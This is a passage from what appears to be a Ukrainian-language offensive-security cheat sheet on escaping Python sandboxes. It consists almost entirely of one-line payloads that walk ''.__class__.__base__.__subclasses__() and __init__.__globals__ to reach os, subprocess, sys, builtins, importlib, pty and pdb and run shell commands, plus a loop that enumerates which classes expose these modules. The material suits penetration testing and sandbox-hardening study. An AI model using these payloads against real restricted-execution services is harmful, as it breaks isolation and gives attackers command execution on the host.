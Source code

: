 ```python
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"].modules["os"].system("ls")
```
Ми можемо зробити те саме з **іншими бібліотеками**, які ми знаємо, що можуть використовуватися для **виконання команд**:
```python
#os
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "os" in x.__init__.__globals__ ][0]["os"].system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "os" == x.__init__.__globals__["__name__"] ][0]["system"]("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'os." in str(x) ][0]['system']('ls')

#subprocess
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "subprocess" == x.__init__.__globals__["__name__"] ][0]["Popen"]("ls")
[ x for x in ''.__class__.__base__.__subclasses__() if "'subprocess." in str(x) ][0]['Popen']('ls')
[ x for x in ''.__class__.__base__.__subclasses__() if x.__name__ == 'Popen' ][0]('ls')

#builtins
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "__bultins__" in x.__init__.__globals__ ]
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "builtins" in x.__init__.__globals__ ][0]["builtins"].__import__("os").system("ls")

#sys
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"].modules["os"].system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'_sitebuiltins." in str(x) and not "_Helper" in str(x) ][0]["sys"].modules["os"].system("ls")

#commands (not very common)
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "commands" in x.__init__.__globals__ ][0]["commands"].getoutput("ls")

#pty (not very common)
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "pty" in x.__init__.__globals__ ][0]["pty"].spawn("ls")

#importlib
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "importlib" in x.__init__.__globals__ ][0]["importlib"].import_module("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "importlib" in x.__init__.__globals__ ][0]["importlib"].__import__("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'imp." in str(x) ][0]["importlib"].import_module("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'imp." in str(x) ][0]["importlib"].__import__("os").system("ls")

#pdb
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "pdb" in x.__init__.__globals__ ][0]["pdb"].os.system("ls")
```
Більше того, ми могли б навіть знайти, які модулі завантажують шкідливі бібліотеки:
```python
bad_libraries_names = ["os", "commands", "subprocess", "pty", "importlib", "imp", "sys", "builtins", "pip", "pdb"]
for b in bad_libraries_names:
vuln_libs = [ x.__name__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and b in x.__init__.__globals__ ]
print(f"{b}: {', '.join(vuln_libs)}")

```